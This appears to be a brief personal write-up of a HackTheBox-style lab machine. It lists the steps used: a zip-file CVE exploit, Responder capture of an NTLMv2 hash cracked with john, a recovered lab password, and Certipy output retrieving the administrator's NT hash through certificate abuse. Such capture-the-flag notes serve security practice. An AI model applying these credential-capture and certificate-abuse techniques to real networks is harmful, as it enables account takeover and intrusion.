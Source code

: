 ___



use 2nd CVE with zip file exploit

user responder to capture NTLM v2 hash and cracked it with john

had to open ports on the firewall for responder


*pass*
p.agila:prometheusx-303:FLUFFY




*fuck certipy kicks my ass everytime*

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@fluffy.htb'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
















